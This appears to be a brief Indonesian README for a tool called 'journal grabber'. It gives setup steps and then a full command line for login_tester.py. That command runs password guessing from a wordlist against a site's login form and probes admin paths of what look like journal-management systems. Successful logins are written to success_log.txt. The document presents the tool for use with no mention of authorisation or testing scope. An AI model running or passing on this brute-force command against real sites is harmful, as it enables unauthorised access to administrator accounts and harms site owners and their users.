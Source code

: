 how to use journal grabber

1. Masuk ke folder project

2. Buat virtual environment (biar clean)
python -m venv venv
source venv/bin/activate   # kalau Linux/Mac
venv\Scripts\activate      # kalau Windows

3. Run pake python.exe -m pip install --upgrade pip

4. Run pake pip install -r requirements.txt

python login_tester.py \
--url https://namadomain.com/akseslogin \
--user_field "form[action*='login'] input[name='username']" \
--pass_field "form[action*='login'] input[name='password']" \
--wordlist wordlist.txt \
--auto_discover \
--target_paths "submissions,manager/setup/1,management/settings/website" \
--delay 2 \
--headless

setelah selesai running diatas, result nya bisa dicek di success_log.txt
